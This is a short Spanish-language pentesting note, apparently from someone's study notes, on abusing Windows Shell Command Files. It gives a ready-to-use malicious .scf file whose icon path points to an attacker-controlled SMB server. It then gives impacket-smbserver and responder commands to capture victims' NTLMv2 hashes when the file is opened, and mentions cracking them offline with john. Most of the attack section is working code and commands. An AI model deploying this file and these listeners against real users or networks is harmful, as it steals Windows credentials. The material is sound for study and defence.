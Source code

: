 -----
- Tags: #teoria #practica #explotación 
----
# SCF File Attacks 
### En el contexto de **Windows**, un archvio **SCF (Shell Command File)** es un tipo de archivo de script que contiene comandos que peuden ser ejecutados por el Explorador de Windows u otros componentes del sistema operativo. Estos archivos se utilizan para automatizar tareas relacionadas con el sistema, configuraciones y operaciones en el entorno de Windows. 

-----
# Explotación 

### No es nuevo que los **SCF (Shell Command FIle)** pueden ser usados para distintas operaciones. Una de estas operaciones puede permitirle al **SCF** acceder a un path de un servicio SMB permitiendo así a los atacantes capturar el hash NTLMv2.

#### File.scf
```scf
[Shell]
Command=2
IconFile=\\{our_smb_server_ip}\{folder}\test.ico
[TaskBar]
Command=ToggleDesktop
```
### Una vez creado el archivo, al momento de ser ejecutado intentará cargar un icono desde el recurso indicado, por lo que desde nuestra máquina de atacante podríamos crear un servidor SMB o estar en escucha con el **responder** con el fin de capturar el hash NTLMv2.

#### impacket-smbserver
```bash
# Crear un servidor smb para recibir la petición a la hora de ejecutar el archivo
impacket-smbserver -smb2support smbFolder $(pwd)
```
#### responder
```bash
responder -w --lm -v -I {interfaz}
```
### Una vez capturado el hash, solo queda intentar crackearlo de manera ofline con herramientas como **john**.